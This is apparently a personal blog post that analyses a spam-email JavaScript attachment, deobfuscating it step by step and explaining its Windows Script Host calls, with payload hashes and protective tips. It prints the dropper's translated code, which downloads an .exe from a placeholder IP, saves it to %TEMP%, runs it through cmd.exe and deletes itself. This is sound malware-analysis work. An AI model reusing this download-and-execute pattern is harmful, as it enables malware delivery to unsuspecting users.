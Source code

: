 ```yaml
---
layout:     post
title:      "Analyzing JavaScript Malware"
subtitle:   "Quick Story Behind Spam Attachment"
date:       2016-10-29 0:00:00
author:     "W3ndige"
header-img: "img/analyzing-javascript-malware-header.jpg"
category: Malware
---
```


<h1>Backstory</h1>

<p>About half of a year ago, my girlfriend got e-mail from post office saying that the the package was ready to pickup, with a quick note saying that more information is available in the attachment. I was asked to look at it, as she found it suspicious - mail was written very poorly - definitely not what official mail would sound like. Firstly I took a look at the domain, from where this mail was sent, and as I excepted, it was not connected to domains of our post service. But what I really wanted to know was, what's the goal of the attachment? </p>

<h1>First contact</h1>

<p>After downloading it, I noticed that the extension of the file was <b>.js</b> - some JavaScript file. But it was only possible because I had turned on showing files with their extensions. Someone without this option would see it only as .txt file. Viewing the source, unfortunately at first, gave me no clue how it works. Script was made of around 400 lines of code. But after looking closer it seemed, that around quarter of the code was actually part that did something, rest was only filled with assigned variables and functions returning pieces of words. </p>

{% highlight javascript %}
var tbuloq1 = {
	itxy:'plebydva', 8423:730, ldipli:353, lgahze:"AtEn", ekxov:'dipyvvo'
}
["lgahze"];
function daqkuvtejqa3 () {
           var ssororg0 = {
		lifki:'hylxyzra', 2216:"d", 6034:'ubylivw'
	}
	;
	var xhahbolz3 = ssororg0["2216"];
           return xhahbolz3;
}

{% endhighlight %}

<p>But after some time I noticed a pattern - in last 30 lines of code, there were only references to the variables, and after connecting them together what I got, was much more readable than before. In example, if you take this piece of code and connect to the variables in the beggining, what you'll get is something more likely looking like this. </p>

{% highlight javascript %}
ejybpib6= zoracufyp7[nsatqe9 + oxqokowj9 + ynxyru7 + exgemko2];
{% endhighlight %}

<p>Great, now to make it clearer to read I have to do the same. Unfortunately I'm not completely sure that it's 'translated' 100% correctly, but it still gives me insight into how this script may work. </p>

{% highlight javascript %}
ejybpib6 = this.WScript;
{% endhighlight %}

<p>Finally, after around 3 hours, I got the full translation. But I've got still a few questions, what is WScript and how it works? </p>

{% highlight javascript %}
ejybpib6 = this.WScript;
ehynzedda7 = WScript.CreateObject(Scripting.FileSystemObject);
elmona4 = WScript.CreateObject(WScript.Shell);
acjihy9 = WScript.CreateObject(MSXML2.XMLHTTP);
jyfej9 = WScript.CreateObject(ADODB.Stream);
oqavate7 = ehynzedda7.GetSpecialFolder(2);

if (typeof document == undefined) {
  kagignu5 = WScript.CreateObject(Scripting.FileSystemObject).GetTempName();
}

if(typeof WScript.StdIn.AtEndOfStream == unknown) {
  ixzebni1 = WScript.CreateObject(MSXML2.XMLHTTP).open(GET, 'http://some_ip_address/8899.exe', 0);
}
ixzebni1 = WScript.CreateObject(MSXML2.XMLHTTP).send();
WScript.CreateObject(ADODB.Stream).type = 1;
try {
    if(!WScript.Arguments.Unnamed.length]) {
			oxacobmo3 = WScript.CreateObject(MSXML2.XMLHTTP).ResponseBody;
		}
    ruzetpa0 = WScript.ScriptFullName;
    ixzebni1 = WScript.CreateObject(ADODB.Stream)Open();
    ixzebni1 = WScript.CreateObject(ADODB.Stream).Write(oxacobmo3);
    ixzebni1 = WScript.CreateObject(ADODB.Stream).SaveToFile(oqavate7 + kagignu5);
    ixzebni1 = WScript.CreateObject(ADODB.Stream).Close();
    ixzebni1 = WScript.CreateObject(WScript.Shell).run(cmd.exe /c + oqavate7 + kagignu5, 0;
    ixzebni1 = WScript.CreateObject(Scripting.FileSystemObject).deleteFile(ruzetpa0);
}
catch(e) {
}

{% endhighlight %}

<p>Okay, as far as I can understand, it downloads the file from url (not shown in this code), and somehow executes it, maybe using cmd?  But for better insight I had to dig for references showing the use of the WScript and other functions show in this code. </p>

<h1>Understanding</h1>

<p><b>Windows Host Script</b> is an Windows eviroment, providing the user with a possibility to run scripts in a variety of languages. By default, when JavaScript is saved to your hard drive, it will be run by WSH with power of executable file. </p>

<p>Script uses these WScript calls: </p>

<ul>
<li><b>WScript.CreateObject(WScript.Shell)</b> - provides access to shell methods of operating system.</li>
<li><b>WScript.CreateObject(MSXML2.XMLHTTP)</b> - XML request using HTTP.</li>
<li><b>WScript.CreateObject(ADODB.Stream)</b> - is used to represent a stream of data or text.</li>
</ul>

<p><b>GetSpecialFolder(2)</b> will get the %TEMP% folder. </p>

<p>Then the script creates the XML request to get the data from specified URL and, then it sends the request. </p>

<p>After that script creates a series of commands to: </p>

<ol>
<li>Get the response body of the request. </li>
<li>Write it to a file in tmp directory. </li>
<li>Save and close the file. </li>
<li>Execute through CMD</li>
<li>Lastly, it will delete the file. </li>

</ol>

<p>Unfortunately, .exe file was not available, while I got to check, and I couldn't find as much info about it as I wanted. The only information I could find were: </p>

{% highlight text %}
Operating System: Windows 7 / 8 / 8.1 / 10
Singature Name: QVM07.1.Malware.Gen

Main Info:

Name: 8899.exe

Size: 569464

Type: PE32 executable (GUI) Intel 80386, for MS Windows

MD5: 3771453fc565a0436534d509dcb7da9f

SHA1: 803e3634a70dd3b9ce2b409b108cb1baf5fa3d08

Freezing computer.
New home page in browsers.
Ads and pop-ups on desktop and browser.
Very slow loading speed of webpages.
Computer work slower then usual.
{% endhighlight %}

<h1>Conclusion</h1>

<p>Author of this malware did a lot, to try and obfuscate this script, as I spent a lot of time trying to make it readable, but still it wasn't as complicated as I thought at first. To stay protected from these kinds of attacks, remember to tell explorer to open .js files through the Notepad by default, as well as show files with their extensions. That way you will see if it's really a text document or .txt.js malware. And the most important step, don't download files that you're unsure about. Simply, don't trust anyone ;) </p>

<p>I had great fun, trying to understand the concept, and even though you may think, that it was very simple, I still learned a lot from this. Anyway, thanks for reading, I hope you learned something new, and I'll see you in the next one! </p>

<p>~ Stay safe!</p>
